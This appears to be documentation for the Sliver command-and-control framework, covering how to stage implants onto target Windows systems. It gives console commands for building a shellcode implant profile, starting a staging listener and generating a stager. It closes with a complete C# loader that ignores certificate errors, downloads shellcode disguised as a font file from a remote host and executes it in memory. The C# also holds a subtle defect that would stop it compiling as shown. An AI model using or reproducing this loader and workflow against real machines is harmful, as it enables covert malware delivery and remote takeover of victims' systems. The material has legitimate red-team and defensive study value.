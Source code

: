 ## Overview

__Important:__ You must have MinGW installed on your Sliver server to get staged payload to work.

As sliver payloads can be pretty big (around 7MB), you may sometime require the use of stagers to execute your implant on a target system.

Sliver supports the `meterpreter` staging protocol over TCP and HTTP(S). This protocol is pretty straight forward:

- read the size of the stage 2 payload on the wire (the first 4 bytes for the TCP stager)
- download the stage 2
- allocate the size read in the first step, and write the stage in memory

For this to work, we need the following pieces:

- a staging server (the Sliver server)
- a stage 2 payload (usually a Sliver shellcode, but can be in other formats)
- stagers (generated by `msfvenom`, the Sliver `generate stager` command, or a custom one)

## Example

Sliver implements staging by reusing the profiles feature. Profiles are sorts of implant blueprints that define a configuration to be reused by the `generate-profile` command.
The following command creates a new profile that we will use for our staging listener:

```
sliver > profile new --profile-name win-shellcode --mtls 192.168.122.1 --skip-symbols --format shellcode

[*] Saved new profile win-shellcode

sliver > profiles 

Name           Platform       Command & Control              Debug  Format      Obfuscation   Limitations
====           ========       =================              =====  ======      ===========   ===========
win-shellcode  windows/amd64  [1] mtls://192.168.122.1:8888  false  SHELLCODE   strings only  
```

We can now create a staging listener and link it to the profile:

```
sliver > stage-listener --url tcp://192.168.122.1:1234 --profile win-shellcode

[*] No builds found for profile win-shellcode, generating a new one
[*] Job 1 (tcp) started
sliver > jobs

ID  Name  Protocol  Port  
==  ====  ========  ====  
1   TCP   tcp       1234  
2   mtls  tcp       8888  
```

Sliver staging listeners only accept `tcp://` and `http://` schemes for the `--url` flag. The format for this flag is `scheme://IP:PORT`. If no value is specified for `PORT`, an error will be thrown out.

We can now generate a stager using the `generate stager` command:

```
sliver > generate stager --lhost 192.168.122.1 --lport 1234 --save /tmp

[*] Sliver stager saved to: /tmp/CIRCULAR_BRA
```

By default, the staging protocol used is TCP. The `--protocol` flag can be used to specify either `tcp` or `http` as the staging protocol.
The generated shellcode can now be used on the target system to start a new Sliver session.

## Custom stagers

One thing to consider while writing or using a custom stager, especially for the HTTP protocol, is that the Sliver server will only serve stage 2 payloads on specifically defined URLs. Indeed, since the HTTP staging listener is reusing the regular HTTP listener, it follows the same [procedural HTTP protocol](https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2#procedural-http-c2).
The extension used to retrieve a stage 2 payload is `.woff`.

As a result, if you want to implement your own stager to fetch a stage 2 payload via HTTP, you need to query a URL that looks like this: `http://SLIVER-SERVER:STAGING-PORT/whatever.woff`.

Here is a C# example of a custom HTTP stager:

```csharp
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace SliverStager
{
    public class Stager
    {
        private string url = "http://a.bc/fonts/FontAwesome.woff";

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;
            IntPtr pinfo = IntPtr.Zero;
            // execute native code
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
          UInt32 lpThreadAttributes,
          UInt32 dwStackSize,
          UInt32 lpStartAddress,
          IntPtr param,
          UInt32 dwCreationFlags,
          ref UInt32 lpThreadId
        );

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
          IntPtr hHandle,
          UInt32 dwMilliseconds
        );
    }
}
```